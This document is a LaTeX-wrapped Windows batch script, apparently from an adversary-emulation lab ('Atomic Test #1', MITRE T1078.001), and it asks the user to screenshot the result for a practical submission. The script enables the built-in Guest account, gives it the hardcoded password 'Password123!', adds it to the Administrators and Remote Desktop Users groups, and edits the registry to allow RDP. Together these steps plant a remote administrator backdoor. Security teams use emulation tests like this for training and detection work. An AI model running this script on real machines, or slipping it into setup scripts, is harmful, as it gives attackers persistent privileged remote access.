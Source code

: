 \documentclass[11pt]{article}
\begin{document}
\begin{lstlisting}[language=bash, caption=Enable Guest Account]
@echo off
REM Atomic Test #1 - Enable Guest account with RDP capability and admin privileges
REM Tactic: Initial Access, Persistence, Privilege Escalation, Defense Evasion
REM Technique: T1078.001 - Valid Accounts: Default Accounts

REM Variables
set guest_user=guest
set guest_password=Password123!
set local_admin_group=Administrators
set remote_desktop_users_group_name="Remote Desktop Users"

echo [*] Starting Guest Account Configuration...

REM Enable Guest account
echo [*] Enabling Guest account...
net user %guest_user% /active:yes
if %errorlevel%==0 (
    echo [+] Guest account enabled successfully.
) else (
    echo [-] Failed to enable Guest account.
)

REM Set Guest account password
echo [*] Setting Guest account password...
net user %guest_user% %guest_password%
if %errorlevel%==0 (
    echo [+] Guest password set successfully.
) else (
    echo [-] Failed to set Guest password.
)

REM Add Guest to Administrators group
echo [*] Adding Guest to Administrators group...
net localgroup %local_admin_group% %guest_user% /add
if %errorlevel%==0 (
    echo [+] Guest added to Administrators group.
) else (
    echo [-] Failed to add Guest to Administrators group.
)

REM Add Guest to Remote Desktop Users group
echo [*] Adding Guest to Remote Desktop Users group...
net localgroup %remote_desktop_users_group_name% %guest_user% /add
if %errorlevel%==0 (
    echo [+] Guest added to Remote Desktop Users group.
) else (
    echo [-] Failed to add Guest to Remote Desktop Users group.
)

REM Enable Remote Desktop access
echo [*] Enabling Remote Desktop access...
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
if %errorlevel%==0 (
    echo [+] RDP access enabled (fDenyTSConnections set to 0).
) else (
    echo [-] Failed to enable RDP access.
)

reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
if %errorlevel%==0 (
    echo [+] RDP connections allowed (AllowTSConnections set to 1).
) else (
    echo [-] Failed to allow RDP connections.
)

echo.
echo [*] Guest account "%guest_user%" configured with RDP and admin privileges.
echo [*] Please take a screenshot now for practical submission.
pause
\end{lstlisting}
\end{document}
